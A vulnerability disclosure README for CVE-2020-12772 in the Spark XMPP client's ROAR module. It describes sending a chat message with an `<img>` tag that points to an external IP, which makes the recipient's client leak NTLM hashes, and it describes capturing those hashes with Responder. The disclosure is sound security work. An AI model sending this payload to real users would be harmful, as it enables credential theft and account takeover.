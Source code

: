# CVE-2020-12772

## Description
When @4nqr34z and myself, @theart42, were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our privileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer hasa been notified and a fix is underway
